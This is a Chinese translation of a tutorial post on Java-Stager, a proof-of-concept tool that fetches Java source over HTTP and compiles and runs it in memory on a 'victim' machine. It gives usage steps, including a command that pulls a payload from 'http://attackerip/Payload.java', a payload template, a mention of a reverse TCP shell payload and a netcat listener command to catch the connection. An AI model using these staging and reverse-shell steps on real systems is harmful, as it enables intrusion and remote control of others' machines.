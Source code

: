 # Java-Stager:在内存中下载、编译和执行 Java 文件的 PoC

> 原文：<https://kalilinuxtutorials.com/java-stager-download-compile-execute/>

PoC **Java-Stager** 可以下载、编译和执行内存中的 Java 文件。

对我来说，这次演讲的关键部分是:

*   将 Stager 加载到受害者上(接触磁盘，但为良性二进制文件)
*   Stager 通过 HTTP 下载原始代码(保存在内存中)
*   Stager 编译原始代码(也在内存中)
*   Stager 然后执行编译后的代码(也在内存中)

 **## **如何使用 Java-Stager**

*   克隆整个存储库。
*   在可以使用 maven 的 IDE 中打开它(比如 NetBeans)
*   Stager 和示例负载位于“/src/main/java”文件夹中。
*   根据需要更改 Stager 并编译项目。我在默认配置文件中使用了“清理/构建”。

NetBeans 中的输出包括这样一行:

`**Building jar: C:\Users\cornerpirate\Documents\NetBeansProjects\java-stager\target\JavaStager-0.1-initial.jar**`

要对受害者进行治疗，您必须上传“JavaStager*。jar”文件和包含来自“目标”文件夹的 Janino 的“lib”文件夹。

以下命令将执行登台程序:

`**java -jar JavaStager-0.1-initial.jar**`

将提示您使用，如下所示:

`**Proper Usage is: java -jar JavaStager-0.1-initial.jar <url>**`

“url”是传递给 Stager 的唯一参数。一个使用示例是:

**`java -jar JavaStager-0.1-initial.jar http://attackerip/Payload.java`**

您的有效负载必须位于名为“Payload.java”的文件中，而您的漏洞代码必须位于名为“Run”的静态方法中。如果您想编写自己的代码，下面显示了模板:

```
public class Payload {
   public static void Run() {
      // Your code here
   }
}
```

我在“TCPReverseShell.java”文件中提供了一个反向 TCP 有效负载的例子。为了防止名称冲突，这个不叫“Payload.java ”,类名是错误的。“TCPReverseShell.java”中的头注释解释了如何修改它才能工作。

您需要在 HTTP 服务器上托管您的“Payload.java”文件。攻击者需要使用标准的`**nc -lvp 8044**`技术启动一个 netcat 监听器来捕捉连接。

[![](img/d861a9096555aeb1980fc054015933d7.png) ](https://github.com/cornerpirate/java-stager) **信用:詹姆斯·威廉姆斯****